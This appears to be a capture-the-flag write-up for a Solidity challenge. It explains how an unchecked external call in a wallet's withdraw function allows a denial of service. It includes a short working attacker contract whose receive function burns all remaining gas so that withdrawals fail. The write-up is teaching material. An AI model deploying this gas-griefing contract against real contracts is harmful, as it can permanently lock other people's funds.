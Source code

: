 # Requirements

- Your goal is to make a DoS attack, making imposible to withdraw funds.

# Attack explanation

To make a DoS attack, we need to create an external contract. We have spotted our setWithdrawPartner that will help us point the targe sc to our new sc.

```
function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }
```

We are going to exploit the external call vulnerability on withdraw function

```
function withdraw() public {
  uint amountToSend = address(this).balance / 100;
  partner.call{value:amountToSend}(""); --> HERE
  payable(owner).transfer(amountToSend);
  timeLastWithdrawn = block.timestamp;
  withdrawPartnerBalances[partner] +=  amountToSend;
}
```

We need to make that external call consume all the gasleft of the transaction, in order to revert without finishing the transaction in a gracefully way.

# Attack function

We could solve the challenge by just using the following attack proxy sc:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract MaliciousContract {
    address public attacker;

    constructor() {
        attacker = msg.sender;
    }

    // Receive function that consumes all gas.
    receive() external payable {
        while (gasleft() > 0) {}
    }
}

```
